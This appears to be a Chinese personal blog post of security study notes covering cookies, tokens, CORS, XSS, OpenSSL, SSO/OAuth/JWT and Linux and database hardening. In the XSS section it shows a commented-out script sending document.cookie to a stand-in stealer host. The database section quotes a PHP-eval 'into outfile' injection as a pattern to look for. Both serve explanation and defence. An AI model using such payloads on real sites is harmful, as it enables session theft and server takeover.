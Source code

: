 ```yaml
---
title: "信息安全：合集"
date: 2023-10-26T16:17:36+08:00
categories:
- 计算机科学与技术
- 信息安全
tags:
- 信息安全
- 滚动更新
thumbnailImagePosition: left
thumbnailImage: /images/thumbnail/security.jpg
---
```

本文从原理出发，记录所有的信息安全中的加解密知识，库，实用工具。也包括鉴权、访问控制、抗抵赖相关知识。
<!--more-->

## 基础假设
1. 从系统角度来说，任何应用都是不安全的，不应被信任的，因此不应给予超过必需部分的权限和数据。
2. 任何用户操作都是不安全的，不应被信任的，对输入要进行专门的检查。

## 基础术语
1. Web
    1. Cookie：用于在客户端存储一些用户信息的**小型文本文件**。一般用于实现Session会话，是Http协议应对无状态问题的一种解决方式。
        - 分类：
            - 第一方和第三方Cookie：第一方就是当前站点页面A的域名的Cookie，第三方是当前站点页面A内的第三方页面内容B（比如一个植入广告）专用的Cookie。可以用于分析页面之间的关系，比如记录用户广告点击来源，分析行为。
            - 会话Cookie、持久Cookie、安全Cookie、HttpOnly Cookie
        - 由服务器端实现会话时，服务器端相当于成为了有状态的服务。在设计上并不好，需要考虑容灾问题。
    2. Token：经过加密处理的**一段数据**。可存储在客户端浏览器缓存、localStorage、sessionStorage。服务器上存储在数据库中。移动端设备支持更好，支持跨程序调用。安全性、可扩展性、跨域支持能力都更强，更灵活。
        - 和Cookie存在多方面差异：安全性、可扩展性、跨域支持、对服务器压力、时效性。但和Cookie并不是并列关系，Token也可以存储在Cookie中。
        - Token完全由应用管理，设计上能支持服务器的无状态服务，即在Token中保存所有必须的用户数据。
        - 分类：Access Token（标识用户身份的令牌）、Refresh Token（用于刷新用户身份标识的专用令牌）
        - 实现方式：JWT（头部.负载.签名）描述了必须的元数据/数据字段/数字签名
        - 参考：[傻傻分不清之 Cookie、Session、Token、JWT](https://juejin.cn/post/6844904034181070861)、[JSON Web Token 入门教程](https://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)
    3. User-Agent：浏览器等客户端向Http请求头中添加的字段，用于填写客户端的系统和软件信息。
    4. 跨域：一种和鉴权相关的安全策略问题。出现在浏览器语境下，是浏览器为了用户的安全性做出的策略。其目的在于通过控制跨域请求，来避免CRSF（跨站请求伪造）和XSS（跨站脚本攻击）
        - 网页发起跨域请求，需要前端（浏览器）和后端同时支持
        - 原理：
            - 简单请求：HEAD/GET/POST且请求头信息不超过允许的字段。浏览器会在请求头中自动添加Origin字段，并填充当前域名A。服务器接收到之后决定该域名A是否允许发起该跨域请求。并填充```Allow-Control-Allow-Origin```、```Allow-Control-Allow-Credentials```、```Access-Control-Expose-Headers```等字段。
            - 非简单请求：所有的其他请求，都会先发送预检请求OPTIONS，主要是询问服务器是否支持指定的请求方法和额外的请求头字段，即```Access-Control-Request-Method/Headers```。只有服务器允许，浏览器才会发送正式请求。
        > 从原理可以看出，CORS配置对后端有一定要求，如果对Origin的检查、以及各Allow字段配置不正确，都会造成CORS漏洞。
        - XHR请求是否携带Cookies在不同浏览器上不明确，最好手动设置
        - 参考：[网页攻击 和 跨域 的相关问题梳理](https://blog.csdn.net/s18813688772/article/details/121910084)、[CORS攻击原理介绍和使用](https://cloud.tencent.com/developer/article/1728658)

## 常见攻击手段 
1. Web
    1. XSS：跨站脚本攻击。最常见的方式是在一个用户可创作内容的网站中，插入一段可执行代码，完成指定动作。
        ```html
        <script>
            // new Image().src = "http://stole.you.cookie.com/save?c=" + encodeURI(document.cookie);
        </script>
        ```
        - 应对方式：
            - 对于Cookie的窃取，可以通过在Set-Cookie头中设置HttpOnly标识，禁止页面脚本获取Cookie。但这只是最基本的，实际上仍有HttpOnly绕过手段。
            - 检查用户输入，禁止其中的脚本执行
    2. 

## OpenSSL
- 注意点
    1. OpenSSL的风格是，内部结构**不导出**，因此对于```ECDSA_SIG```、```BIGNUM```等，不能直接通过成员访问操作符```->```来获取成员。正确的方式是使用相对应的API。例如
        ```c
            // 对ASN.1的DER编码进行解码
        	ECDSA_SIG* result = d2i_ECDSA_SIG(&sig, (const unsigned char**)&derData, derlen);
            // BIGNUM也是用BN_new获取
            const BIGNUM* pr = BN_new();
            const BIGNUM* ps = BN_new();
            // 对result->r和result->s的获取
            ECDSA_SIG_get0(result, &pr, &ps);
        ```
- Windows下的编译：
    - 步骤：
        1. 安装Perl
        2. ```mkdir your-build ; cd your-build```
        3. ```perl Configure VC-WIN64A no-asm --prefix=D:\path\to\install```，生成makefile等，更多[配置说明](https://wiki.openssl.org/index.php/Compilation_and_Installation)
        4. 调用Visual Studio的Native Tools Command Prompt，执行```nmake```
        5. ```nmake install```
    - 参考：[win10 x64 visual studio 2019 编译 OpenSSL-1.1.1](https://blog.csdn.net/qiuxue110/article/details/115560240)

## 鉴权
1. 单点登录SSO（Single Sign On）：在一个多应用系统中，提供一处登录处处登录，一处登出处处登出的效果。参考[单点登录解决方案](https://cloud.tencent.com/developer/article/1636664)。
    1. Cookie：
        - 不跨域：将多个应用的Session进行共享，并将其SessionId放到Cookie中交给客户端。可以实现不跨域（不跨顶级域）前提下的单点登录。
        - 跨域：通过引入CAS（Central Authentication Service）服务器，提供SSO会话。在访问应用时，会重定向到SSO会话服务，登录并提供SSO会话的Cookie，和为应用提供的Service Ticket。应用会去CAS服务器查验Service Ticket是否有效。
    2. OAuth：一种认证授权机制，通过在服务端和客户端之间增加一个授权层，来向第三方颁发令牌。它主要是为了用来提供不同系统之间API的授权服务（A应用想调用B应用的API接口）。当然也可以用于单点登录。参考[理解OAuth 2.0](https://www.ruanyifeng.com/blog/2014/05/oauth_2_0.html)
        - 术语：第三方应用程序（企图获得API授权的程序）、服务提供商（API提供者）、资源所有者（用户）、用户代理（浏览器）、认证服务器（API提供者用于执行OAuth）、资源服务器（API提供者内部）
        - 流程：第三方应用程序访问授权层，在资源所有者控制下授权令牌（可指定范围和有效期），服务提供商根据令牌想第三方应用程序提供服务。
        - 模式：授权码模式（第三方服务器-服务提供商服务器）、简化模式（用户代理-服务器提供商服务器）、密码模式（直接给第三方密码）、客户端模式（第三方把自己视作用户）
    3. JWT（JSON Web Token）：JWT本身只是一种Token的实现方式，但同时这种方式能够很好的支持单点登录。用户在登录之后，会获取到认证服务生成的JWT，每次访问均携带JWT，由网关等对JWT进行核验。由于JWT本身并不一定加密（只是一定会做签名），所以需要搭配https，总之应当尽量保证JWT不被泄露。

## 具体实践
### Linux系统
1. 配置审计日志
    ```bash
    # 记录所有对/etc/passwd文件的读取行为，以pass_audit做key插入审计日志
    auditctl -w /etc/passwd -p r -k pass_audit
    ```
1. 配置更详细的访问控制ACL
    ```bash
    # 对用户userA，设置允许对/opt/test.txt具备读写权限
    setfacl -m u:userA:rw /opt/test.txt
    ```
1. 安全的删除文件
    ```bash
    # 使用伪随机数据填充/opt/secret.txt（默认三次），并删除文件
    shred /opt/secret.txt && rm /opt/secret.txt
    ```
1. 数据完整性和摘要
    ```bash
    md5sum xxxfile
    # 不同的sha算法生成的摘要长度不同
    sha512sum xxxfile
    ```
### 数据库
1. 设置密码策略
    ```mysql
    
    ```
1. 从数据库历史中查看可疑命令
    ```mysql
    // 查看是否有写入了文件的注入行为，例如
    select "<?php eval...?" into outfile xxx
    ```
